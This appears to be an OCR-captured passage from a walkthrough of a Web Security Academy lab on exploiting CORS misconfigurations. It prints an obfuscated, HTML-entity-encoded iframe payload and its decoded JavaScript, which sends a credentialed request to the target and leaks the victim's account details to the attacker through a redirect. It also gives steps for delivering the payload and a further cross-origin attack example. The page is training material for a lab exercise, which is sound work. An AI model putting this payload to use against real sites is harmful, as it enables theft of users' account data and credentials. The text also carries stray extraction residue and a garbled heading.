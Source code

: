 ```html
srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x63;&#x6f;&#x6e;&#x73;&#x74;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x0a;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x22;&#x67;&#x65;&#x74;&#x22;&#x2c;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x31;&#x66;&#x30;&#x30;&#x66;&#x37;&#x30;&#x33;&#x30;&#x61;&#x32;&#x32;&#x62;&#x65;&#x38;&#x35;&#x62;&#x66;&#x61;&#x66;&#x38;&#x39;&#x30;&#x30;&#x65;&#x62;&#x30;&#x30;&#x66;&#x33;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x22;&#x2c;&#x20;&#x74;&#x72;&#x75;&#x65;&#x29;&#x0a;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x28;&#x29;&#x3d;&#x3e;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x77;&#x69;&#x6e;&#x64;&#x6f;&#x77;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2e;&#x68;&#x72;&#x65;&#x66;&#x3d;&#x20;&#x22;&#x2f;&#x61;&#x62;&#x63;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x22;&#x20;&#x2b;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x0a;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x3d;&#x74;&#x72;&#x75;&#x65;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x0a;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;"
></iframe>
</body>
</html>
```

The HTML encoding section is as follows:

```html
<script>
    const request = new XMLHttpRequest()

    request.open("get", "https://0a1f00f7030a22be85bfaf8900eb00f3.web-security-academy.net/accountDetails", true)

    request.onload = ()=>{
        window.location.href= "/abc?key=" + request.responseText
    }

    request.withCredentials=true
    request.send()
</script>
```

Attempt to view the exploit yourself and check it works. Deliver to the victim and then view the access log to confirm you receive their account page.
# Exploiting CSS via CORS

If a site trusts an origin that is XSS vulnerable, an attacker can exploit it to inject JavaScript that uses CORS to extract sensitive information from the site that trusts it. For example:

```html
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```
